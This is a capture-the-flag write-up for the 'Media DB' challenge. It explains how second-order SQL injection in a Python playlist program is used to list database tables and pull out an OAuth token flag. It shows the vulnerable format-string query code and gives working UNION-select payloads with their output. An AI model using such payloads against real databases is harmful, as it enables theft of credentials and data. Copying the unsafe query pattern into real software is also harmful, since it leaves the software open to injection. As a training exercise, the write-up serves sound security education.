 ### Media-DB / MISC / WebPluxMediaPC

Flag: `CTF{fridge_cast_oauth_token_cahn4Quo}`

> The gatekeeper software gave you access to a custom database to organize a music playlist. It looks like it might also be connected to the smart fridge to play custom door alarms. Maybe we can grab an oauth token that gets us closer to cake.

`$ nc media-db.ctfcompetition.com 1337`

`attachment`

In the attachment we find `media-db.py`. Its the sourcecode for an interactive menu:

```
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
>
```

The sourcecode contains SQL so my first guess is this application has a SQL injection vulnerability. So I start looking at how input parameters are used. There seems to be some protection:

```
  if choice == '1':
    my_print("artist name?")
    artist = raw_input().replace('"', "")
    my_print("song name?")
    song = raw_input().replace('"', "")
    c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
```

Above code strips `"` characters, so we can not use this when adding a new song.

```    
  elif choice == '2':
    my_print("artist name?")
    artist = raw_input().replace("'", "")
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
```

And here `'` characters are stripped. Curious to see different stripping in these code blocks (double vs single quotes).

Looking further, option 4 looks like a winner:

```
  elif choice == '4':
    artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
    my_print("choosing songs from random artist: {}".format(artist))
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
```

Here the artist value is used a select statement without sanitizing any quotes.

Time to draw up a plan. Let's add an artist with `'` characters, which are allowed. Then use option 4 to query that artist and use the value in the 2nd statement.

Let's try to discover the available tables:

```
nc media-db.ctfcompetition.com 1337
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
' union select tbl_name, 2 FROM sqlite_master --
song name?
foo

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: ' union select tbl_name, 2 FROM sqlite_master --

== new playlist ==
1: "2" by "media"
2: "2" by "oauth_tokens"
```

OK. We knew about the `media` table, but that `oauth_tokens` looks interesting!

Reconnect and add a song for querying all SQL so we discover the columns:

```
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
' union select sql, 2 FROM sqlite_master --
song name?
foo

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: ' union select sql, 2 FROM sqlite_master --

== new playlist ==
1: "2" by "CREATE TABLE media (artist text, song text)"
2: "2" by "CREATE TABLE oauth_tokens (oauth_token text)"
```

OK. So the `oauth_tokens` table has only one column named `oauth_token`. Let's query this table:

```
> 1
artist name?
' union select oauth_token, 2 FROM oauth_tokens --
song name?
foo
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: ' union select oauth_token, 2 FROM oauth_tokens --

== new playlist ==
1: "2" by "CTF{fridge_cast_oauth_token_cahn4Quo}
"
```

And we're done!

